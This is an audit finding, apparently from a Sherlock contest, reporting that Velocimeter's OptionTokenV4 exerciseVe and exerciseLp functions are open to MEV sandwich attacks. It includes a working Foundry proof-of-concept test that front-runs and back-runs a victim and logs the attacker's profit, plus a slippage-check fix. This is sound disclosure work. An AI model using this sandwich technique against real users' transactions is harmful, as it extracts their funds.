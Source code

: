High Hotpink Dove

High

# exerciseVe and exerciseLp are vulnerable to MEV

## Summary
when optionToken holders want to use their discount and stake their lps token directly they can use `OptionTokenV4::exerciseVe` and `OptionTokenV4::exerciseLp`, paymentAmountToAddLiquidity will be computed in execution duration and that depend on reserves in that moment,leading to pay more than expected amount and sandwich attack
## Vulnerability Detail
**Textual PoC:**
Let's assume Alice has 1000 oFlow and she wants to exercise them to lps token and stake them, Alice gets 1000 FLOW as a underlying token and if reserve0 and reserve1 be 500 Alice has to pay 1000 DAI for paymentToken,attacker see this transaction in mempool and swap FLOW to DAI leading to increase DAI reserve and this mean Alice has to pay DAI more than expected amount and attacker can get porfit


**Coded PoC:**
```solidity
    function testSandwichAttack() external {
        address attacker = makeAddr("attacker");
        vm.startPrank(address(owner));
        FLOW.approve(address(oFlowV4), 1000e18);
        oFlowV4.mint(address(owner2), 1000e18);

        washTrades();
        vm.stopPrank();
        

        assertEq(oFlowV4.balanceOf(address(owner2)), 1000e18);

        (uint256 underlyingReserve, uint256 paymentReserve) = IRouter(router).getReserves(address(FLOW), address(DAI), false);
        uint256 paymentAmountToAddLiquidity = (TOKEN_1 * paymentReserve) /  underlyingReserve;
        DAI.mint(attacker, paymentReserve);

        Router.route[] memory routes = new Router.route[](1);
        routes[0] = Router.route(address(DAI), address(FLOW), false);

        uint256[] memory expectedOutput = router.getAmountsOut(
                paymentReserve,
                routes
            );
        uint before_swap_dai_balance = DAI.balanceOf(attacker);

        vm.startPrank(attacker);
        DAI.approve(address(router), paymentReserve);    
        router.swapExactTokensForTokens(
            paymentReserve,
            expectedOutput[1],
            routes,
            attacker,
            block.timestamp

        );
        vm.stopPrank();
        uint after_swap_flow_balance = FLOW.balanceOf(attacker);

        (underlyingReserve, paymentReserve) = IRouter(router).getReserves(address(FLOW), address(DAI), false);


        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), type(uint).max);

        assertGt(DAI.balanceOf(address(owner2)), 4187724401248807160512);
        (, uint256 nftId, ) = oFlowV4.exerciseVe(
            1000e18,
            1000e18 + paymentAmountToAddLiquidity,
            address(owner2),
            20,
            block.timestamp
        );
        vm.stopPrank();
         (underlyingReserve, paymentReserve) = IRouter(router).getReserves(address(FLOW), address(DAI), false);

        
        Router.route[] memory reRoutes = new Router.route[](1);
        reRoutes[0] = Router.route(address(FLOW), address(DAI), false);
        uint256[] memory expectedOutput2 = router.getAmountsOut(
                after_swap_flow_balance,
                reRoutes
        );
        vm.startPrank(attacker);
        FLOW.approve(address(router), paymentReserve);    
        router.swapExactTokensForTokens(
            after_swap_flow_balance,
            expectedOutput2[1],
            reRoutes,
            attacker,
            block.timestamp

        );
        vm.stopPrank();
        emit log_named_uint("attacker_profit:", DAI.balanceOf(attacker) - before_swap_dai_balance);
    }
```

## Impact
leading to significant lose for option token holders

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L608
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L667

## Tool used

Manual Review

## Recommendation
option token holders should be able control max payment amount
```diff
    function _exerciseVe(
        uint256 _amount,
        uint256 _maxPaymentAmount,
        uint256 _discount,
        address _recipient
...
        (uint256 paymentAmount,uint256 paymentAmountToAddLiquidity) =  getPaymentTokenAmountForExerciseLp(_amount,_discount); // TODO decide if we want to have the curve or just always maxlock
-        if (paymentAmount > _maxPaymentAmount)
+        if (paymentAmount + paymentAmountToAddLiquidity > _maxPaymentAmount)
            revert OptionToken_SlippageTooHigh();
```
